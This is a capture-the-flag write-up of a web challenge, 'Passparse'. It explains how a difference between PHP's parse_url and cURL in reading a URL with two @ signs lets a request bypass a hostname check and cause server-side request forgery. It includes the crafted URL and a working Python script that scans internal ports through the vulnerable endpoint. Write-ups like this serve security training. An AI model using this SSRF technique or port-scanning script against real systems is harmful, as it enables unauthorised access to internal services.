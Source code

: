 # Passparse (web 500)

### overview
We were given a web app that sends a request to the server using axios via a button :

[http://passparser.web.ctf.shellmates.club/verify.php?url=URL_HERE](http://passparser.web.ctf.shellmates.club/verify.php?url=URL_HERE)

We first had to bypass the hostname check using well known techniques but no one worked and we continue had a message saying "You don't have permission".

Then we though it was an HTTP Splitting attack due to the response when sending a CRLF at the end of the URL.

But at the end we had to re-read the JS code with a comment 'update cURL !', so we started fetching for CURL PHP URL parsing conflicts and we end up in this article [https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf](https://www.blackhat.com/docs/us-17/thursday/us-17-Tsai-A-New-Era-Of-SSRF-Exploiting-URL-Parser-In-Trending-Programming-Languages.pdf).

### the attack

So the vulnerability was that when sending this format of url :
```
http://random@rabbit.com:80@zion.com/
```
in PHP when using parse_url function to get the host it will get the last one **zion.com**, but in cURL it will take the first one **rabbit.com**
```
http:// random @ 127.0.0.1:80 @ passparser.web.ctf.shellmates.club/
                |____________|   |______________________________|
                     |                          |
                    cURL                    PHP parse_url
```
So we then just had to fetch for internal services by changing ports, here is the script:
```python
import requests

url = "http://passparser.web.ctf.shellmates.club/verify.php?url=http://a@127.0.0.1:{}@passparser.web.ctf.shellmates.club/"
headers = {
		"Accept": "application/json, text/plain, */*",
		"X-Auth-Token": "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c",
		"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36",
		"Referer": "http://passparser.web.ctf.shellmates.club/",
		"Accept-Encoding": "gzip, deflate",
		"Accept-Language": "en-US,en;q=0.9",
		"Connection": "close"}
for x in range(31):
    port = f"90{str(x).zfill(2)}"
    print(f'Trying port {port}')
    try:
        r = requests.get(url.format(port), headers=headers, timeout=2)
    except requests.exceptions.ReadTimeout:
        continue
    if len(r.text) != 13:
        print(r.text)
        break
    else:
        continue

```
